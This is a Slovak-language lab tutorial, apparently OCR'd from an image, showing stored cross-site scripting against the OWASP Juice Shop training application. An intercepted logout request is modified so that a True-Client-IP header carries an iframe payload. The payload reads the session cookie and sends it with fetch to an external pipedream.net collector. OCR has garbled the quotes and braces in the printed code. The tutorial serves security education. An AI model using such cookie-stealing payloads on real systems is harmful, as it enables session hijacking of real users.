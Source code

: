 # Stored cross site scripting (XSS)

### Prostredie: Juice-Shop - https://github.com/juice-shop/juice-shop#from-sources

- Stored cross site scripting (XSS) je nazývaný stored kvôli tomu, že škodlivý kód je ukladaný v databáze aplikácii a je spustený každý krát keď užívateľ navštívy danú stránku. Ukážeme si krátku ukážku na Juice shop aplikácií.
- Pre tento typ útoku budeme potrebovať taktiež nástroj, ktorý bude zachytávať HTTP požiadavky na server, čo nám umožňuje vidieť a upraviť každú jednu požiadavku. Zaužívaným nástrojom pre tieto potreby je PortSwigger.
- V Juice shop aplikácií máme samostatnú obrazovku, ktorá zobrazuje poslednú IP adresu z ktorej sme boli prihlásený. Táto posledná IP adresa sa získava z databázy. Pri odhlasovaní z účtu vieme odchytiť požiadavku na odhlásenie
  pomocou PortSwiggera a upraviť odosielanú IP adresu, ktorá sa ukladá do databázy.
- Pri odchytení požiadavky pridáme do hlavičky requestu ešte jeden atribút True-Client-IP s hodnotou

      iframe src="javascript:const headers = new Headers();headers.append(‘Content-Type‘, ‘text/p-
            lain‘);const body = test: ‘event‘,;const options = method: ‘POST‘,headers,mode: ‘cors‘,body:
            document.cookie.split(‘ ‘)[4].split(‘=‘)[1],;fetch(‘https://eojph9o2kgja7k2.m.pipedream.net‘,
            options);" /iframe

  a požiadavku posunieme na server.
- Pri dalšom prihlasovaní sa pre obrazovku, kde zobrazujeme poslednú IP adresu prihlásenia úž nezobrazí IP adresa ale náš kód, ktorý odošle požidavku na náš server so session tokenom.